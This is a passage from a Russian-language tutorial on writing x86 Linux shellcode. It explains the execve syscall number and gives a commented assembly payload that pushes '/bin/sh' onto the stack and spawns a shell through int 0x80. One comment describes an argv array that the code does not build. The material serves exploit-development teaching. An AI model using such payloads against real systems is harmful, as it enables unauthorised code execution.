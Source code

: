 ![](/assets/images/ru/shellcode1/10.png)

Видим, что в EAX кладется значение 0xb - это и есть номер execve! 

В итоге наш шеллкод выглядит вот так:

```assembly
section .text

global _start

_start:
;execve("/bin/sh", {"/bin/sh", NULL}, NULL)

;Начинают всегда с обнуления всех регистров, которые мы хотим использовать, так как неизвестно что в них было до нас.
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

;Кладем в EAX номер системного вызова execve (0xb = 11) 
mov al, 11

;Ниже, мои наркоманские потуги поместить 7-ми байтную строку на стек
; Не забывайте, что мы кладем строку в обратном порядке
mov bh, 0x68
mov bl, 0x73
rol ebx, 8
mov bl, 0x2f
push ebx
push 0x6e69622f
mov ebx, esp

;Это специальная инструкция, которая сообщает, что мы вызываем функцию ядра
int 0x80
```
